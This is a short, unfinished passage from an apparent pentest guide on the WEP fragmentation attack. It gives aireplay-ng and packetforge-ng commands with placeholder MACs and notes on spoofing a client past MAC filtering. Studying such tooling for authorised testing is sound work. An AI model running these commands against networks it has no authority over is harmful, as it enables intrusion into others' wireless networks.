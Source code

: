 //TO EXPLAIN fragmentation attack : in certain scenarios, this process can be very long since it's virtually based on luck.

//TO EXPLAIN : deauth or disassociation packets can sometimes be received. In this case, it can indicate client MAC filtering. Testers should spoof a legitimate client. 

```bash
aireplay-ng --fragment -F -b 'TA:RG:ET:BS:SI:DD' $wlan_interface
```

![](<./assets/Fragmentation attack.png>){.rawimg}

//TO EXPLAIN packet creation

```bash
packetforge-ng --arp -a 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' -k 255.255.255.255 -l 255.255.255.255 -y $fragment_file -w crafted-packet
```

![](<./assets/Fragmentation attack packet creation.png>){.rawimg}
